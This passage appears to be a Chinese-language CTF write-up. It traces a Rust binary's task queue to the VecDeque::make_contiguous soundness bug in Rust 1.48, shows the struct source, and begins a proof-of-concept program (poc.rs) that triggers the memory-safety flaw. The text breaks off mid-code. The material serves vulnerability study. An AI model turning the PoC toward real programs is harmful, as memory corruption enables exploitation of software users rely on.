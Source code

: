 查找字符串可以找到编译器的版本:

![](https://i.imgur.com/XZ2Hzgw.png)

在 `unsafe::TaskQueue::push_back::haa04777951b4543a` 函数中也调用了 `make_contiguous`

![](https://i.imgur.com/hVAK2Ro.png)

对上了！下面就来研究一下这个漏洞。

安装 rust 1.48 及其源码：

```bash
$ rustup install 1.48
$ rustup +1.48 component add rust-src
```

找到对应 patch：[fix soundness issue in `make_contiguous` #79814](https://github.com/rust-lang/rust/pull/79814/files)

#### VecDeque 的内部表示

结构体：

- .rustup/toolchains/1.48-x86_64-unknown-linux-gnu/lib/rustlib/src/rust/library/alloc/src/collections/vec_deque.rs

```rust
    pub struct VecDeque<T> {
    	// tail and head are pointers into the buffer. Tail always points
    	// to the first element that could be read, Head always points
    	// to where data should be written.
    	// If tail == head the buffer is empty. The length of the ringbuffer
    	// is defined as the distance between the two.
    	tail: usize,
    	head: usize,
    	buf: RawVec<T>,
    }
```
这里借用 **[Analysis of CVE-2018-1000657: OOB write in Rust's VecDeque::reserve()](https://gts3.org/2019/cve-2018-1000657.html)** 中的图示：

![](https://gts3.org/blog/cve-2018-1000657.assets/ring-buffer.png)


poc:

https://github.com/rust-lang/rust/issues/79808#issuecomment-740188680

修改 `VecDeque<int>` 为 `VecDeque<String>`：

- poc.rs

```rust
  use std::collections::VecDeque;
  
  fn ab(dq: &mut VecDeque<String>, sz: usize) {
      for i in 0..sz {
          let string = (i).to_string();
          dq.push_back(string);
      }
      dq.make_contiguous();
      for _ in 0..sz {
          dq.pop_front();
      }
  }
  
  fn ab_1(dq: &mut VecDeque<String>, sz: usize) {
      for i in 0..sz {
          let string = (i).to_string();
```